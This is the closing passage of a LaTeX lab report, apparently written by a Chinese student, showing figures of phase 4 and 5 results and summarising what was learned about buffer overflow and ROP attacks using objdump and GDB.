  
\includegraphics[width=17cm]{phase4.png}
  \caption{phase\_4运行结果}
\end{figure}

\begin{figure}[H]
  \centering
  
\includegraphics[width=17cm]{phase5.png}
  \caption{phase\_5运行结果}
\end{figure}

\normalsize
\section{实验结果总结}
\large
在本次实验中,首先我学习到了缓冲区溢出攻击以及ROP攻击的概念。通过使用OBJDUMP和GDB等工具对程序进行逆向工程和分析,我简单地尝试了缓冲区溢出攻击和ROP攻击。

这使我对 x86-64 的堆栈和参数传递机制有了更深入的了解,也获得了更多使用 GDB 和 OBJDUMP 等调试工具的经验。

\normalsize
\large




\normalsize
\end{document}